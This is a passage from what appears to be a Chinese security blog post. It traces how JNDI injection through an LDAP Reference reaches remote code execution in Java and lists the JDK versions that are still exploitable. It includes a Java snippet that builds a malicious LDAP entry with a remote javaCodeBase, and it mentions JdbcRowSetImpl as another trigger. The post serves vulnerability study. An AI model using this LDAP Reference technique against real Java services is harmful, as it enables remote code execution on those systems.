前面一样的

进入PartialCompositeContext的lookup



进入`for`循环中的`p_lookup`



进入`c_lookup`方法，其中var4为我们Ldap服务器设置的东西

```java
 Entry entry = new Entry(base);
entry.addAttribute("javaClassName", className);
entry.addAttribute("javaFactory", className);
entry.addAttribute("javaCodeBase", url);
entry.addAttribute("objectClass", "javaNamingReference");
```

按照顺序看`javaFactory`不能为null，这个var3是获取了一个远程的`Reference`类



触发下面的`DirectoryManager.getObjectInstance`

进入，就是很熟悉的触发RCE的方法，（这个是通过返回一个恶意类来触发的）



#### 限制

>在JDK 8u191、7u201、6u211之后，com.sun.jndi.ldap.object.trustURLCodebase属性的默认值被设置为false，对LDAP Reference远程工厂类的加载增加了限制。
>
>所以，当JDK版本介于8u191、7u201、6u211与6u141、7u131、8u121之间时，我们就可以利用LDAP+Reference的技巧来进行JNDI注入的利用。

#### JdbcRowSetImpl触发注入

一样的，只需要换一个协议。

### 参考链接

https://ho1aas.blog.csdn.net/article/details/122474071?spm=1001.2014.3001.5502

